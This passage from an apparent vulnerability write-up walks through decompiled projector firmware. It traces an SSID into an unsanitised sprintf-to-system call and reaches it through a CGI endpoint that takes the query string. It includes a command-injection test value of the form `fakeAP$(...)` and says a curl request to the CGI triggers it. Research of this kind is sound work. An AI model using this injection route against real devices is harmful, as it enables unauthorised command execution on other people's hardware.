    snprintf(acStack_228,0x200,"###%s,%d %s is connected, skip connect_network2\n",
             "connect_network2",0x1d3,ssid);
    iVar6 = m_SD20xMsgFile;
    if (m_SD20xMsgFile != 0) {
      sVar2 = strlen(acStack_228);
      write(iVar6,acStack_228,sVar2);
      fsync(m_SD20xMsgFile);
      return 0;
    }
    return 0;
  }
  set_wifi_status("connecting");
  memset(acStack_530,0,0x100);
  sprintf(acStack_530,"echo \"%s\" > /var/run/mcast/current_wifi",ssid);
  sd20x_system(acStack_530);
  if (param_6 == 0) {
    iVar1 = getNetIdBySsid(interface_name,ssid);
    if (-1 < iVar1) goto LAB_0001ac8c;
    memset(acStack_228,0,0x200);
    uVar7 = 0x24e;
    pcVar4 = "###%s,%d saved ssid %s not found\n";
  }
  /* ... SNIP ... */
```

The function takes in an interface name, SSID that you want to connect to, and some other information that isn't important for our purposes. It then checks to see if you're already connect to the network, and if not executes the command `echo \"%s\" > /var/run/mcast/current_wifi`. Here, we can put in a fake SSID, with an injection. Something like `fakeAP$(touch /tmp/i-was-here)`. Let's trace this function back to see what actually calls it. After looking at the references in the library, we can see that it gets called externally:


So let's just search it on the filesystem itself:

```bash
$ grep -lr 'connect_network' .                                                                                                      130 ↵
./res/boa/cgi-bin/connectSavedAp.cgi
./res/boa/cgi-bin/connect.cgi
./lib/libsd20x_mw.so
./lib/libsd20x_msrv.so
```

It's called in two CGI files, which is important as these are hoste by the projector and something we can communicate to directly. After opening up the first hit, `connectSavedAp.cgi`, we find an easy win:

```c

undefined4 FUN_00010648(void)

{
  char *pcVar1;
  int iVar2;
  undefined auStack_8c [132];
  
  memset(auStack_8c,0,0x84);
  puts("Content-Type:text/html\n");
  puts("<TITLE>connect to saved AP</TITLE>");
  pcVar1 = getenv("QUERY_STRING");
  lollipop_socket_client_send("/var/run/shm/p2p.sock","P2P_START_SCAN");
  URLDecode(pcVar1 + 5,auStack_8c,0x84);
  iVar2 = connect_network("wlan0",auStack_8c,"",1,"",0,0);
  if (iVar2 != 0) {
    printf("connect to %s failed\n",auStack_8c);
  }
  printf("<meta HTTP-EQUIV=refresh Content=\'0;url=wifi.cgi\'>");
  return 0;
}
```

Perfect, so we just send a `curl` with an HTTP query string, and win!
